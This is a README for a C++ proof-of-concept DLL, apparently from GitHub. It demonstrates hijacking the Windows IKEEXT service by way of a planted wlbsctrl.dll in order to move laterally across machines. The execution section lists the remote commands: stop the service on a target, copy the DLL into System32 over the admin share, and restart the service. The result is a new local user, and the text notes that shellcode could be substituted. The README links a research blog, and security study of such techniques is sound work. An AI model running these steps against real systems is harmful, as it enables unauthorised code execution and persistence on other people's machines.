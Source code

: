# wlbsctrl_poc

## Description

This is a simple C++ POC to demonstrate how DLL hijacking can be leveraged against the IKEEXT service to execute commands remotely. This project simply adds a new user called demo to the computer's users. Technically, this could also be used in the SessionEnv example; however, a C# implementation of that hijack can be found [here](LINK HERE).

One could instead implement malicious logic to run shellcode, for example, instead of adding a local user to facilitate lateral movement.

## Build Instructions

Open the solution and build the "Release" version of the dll.

## Execution

1. `sc.exe \\TARGET stop IKEEXT`
2. `copy wlbsctrl.dll \\TARGET\C$\Windows\System32\wlbsctrl.dll`
3. `sc.exe \\TARGET start IKEEXT`

The `demo` user should now be added to the Computer's users.

## Blog Details

https://posts.specterops.io/lateral-movement-scm-and-dll-hijacking-primer-d2f61e8ab992
